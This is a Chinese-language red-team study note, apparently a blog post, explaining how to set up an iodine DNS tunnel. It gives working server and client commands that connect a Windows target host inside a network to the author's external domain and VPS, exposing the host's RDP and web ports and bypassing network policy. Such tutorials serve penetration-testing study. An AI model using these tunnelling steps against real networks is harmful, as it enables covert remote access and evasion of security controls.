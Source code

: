 ```yaml
---
title: 【内网学习笔记】9、iodine 使用
date: 2021-06-08 21:34:03
id: 210608-213403
img: https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/Snipaste_2021-06-08_21-12-06.png
tags:
- 红队
- 学习笔记
- 内网
categories:
- 内网学习笔记
---
```


## 1、介绍

iodine 这个名字起的很有意思，iodine 翻译过来就是碘，碘的原子序数为 53，53 也就是 DNS 服务对应的端口号。 

iodine 和 dnscat2 一样，适合于其他请求方式被限制以至于只能发送 DNS 请求的环境中，iodine 同样也是分成了直接转发和中继两种模式。

iodine 与 dnscat2 不同的在于 Iodine 服务端和客户端都是用 C 语言开发，同时 iodine 的原理也有些不同，iodine 通过 TAP 在服务端和客户端分别建立一个局域网和虚拟网卡，再通过 DNS 隧道进行连接，然后使其处在同一个局域网中。

## 2、安装

首先需要有一个域名，并设置 NS 和 A 记录，A 记录指向自己的公网 VPS 地址，NS 记录指向 A 记录的子域名。

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/Snipaste_2021-06-07_17-20-20.png)

Kali 下自带 iodine ，Debian Linux 可以使用 apt 进行安装

```
sudo apt-get install iodine
```

Windows 可以直接到官网下载，下载地址：[https://code.kryo.se/iodine/](https://code.kryo.se/iodine/)，服务端名称是 iodined.exe，客户端是 iodine.exe

## 3、使用

这里服务端使用的是 Linux，服务端命令如下：

```
sudo iodined -f -c -P teamssix 192.168.77.1 dc.teamssix.com -DD
```

```
 -f		在前台运行
 -c		不检查传入请求的客户端 IP 地址
 -P		客户端与服务端之间的连接密码
 -D		调试级别，-D 表示第一级，-DD 表示第二级，依此类推
 
 192.168.77.1 是自己自定义的局域网虚拟 IP 地址。
```

这里客户端使用的是 Windows，Windows 客户端上除了要有 iodine 相关文件外，还需要安装 tap 网卡驱动程序，这里我百度找了一个下载地址 [http://www.qudong51.net/qudong/981.html](http://www.qudong51.net/qudong/981.html)

打开下载好的 tap 网卡驱动程序，一直下一步下一步安装就行。

然后就可以启动客户端程序了，注意下载下来的 dll 文件要和 exe 在一个目录下，不能只复制一个 exe 到目标主机上，而且要以管理员权限运行下面的命令。

```
.\iodine.exe -f -r -P teamssix dc.teamssix.com
```

```
-r		iodine 有时会自动将 DNS 隧道切换成 UDP 通道，使用 -r 命令可以强制让 iodine 在任何情况下都使用 DNS 隧道
```

如果出现 `Connection setup complete, transmitting data.` 就表示 DNS 隧道就已经建立了。

这时如果去 ping 服务端自定义的虚拟 IP 也是可以 ping 通的。

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/Snipaste_2021-06-08_21-12-06.png)

假如这里内网机器分配到了 192.168.77.2 这个 IP ，因为处在一个局域网中，所以 VPS 直接访问 192.168.77.2 的 3389、80 等端口就可以直接访问到内网机器的相关端口了，同样的内网主机也可以访问 VPS 的 22 端口等等，至此便绕过了策略限制。

> 参考文章：
>
> [https://www.cnblogs.com/micr067/p/12263337.html](https://www.cnblogs.com/micr067/p/12263337.html)
>
> 更多信息欢迎关注我的微信公众号：TeamsSix

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/TeamsSix_Subscription_Logo2.png)
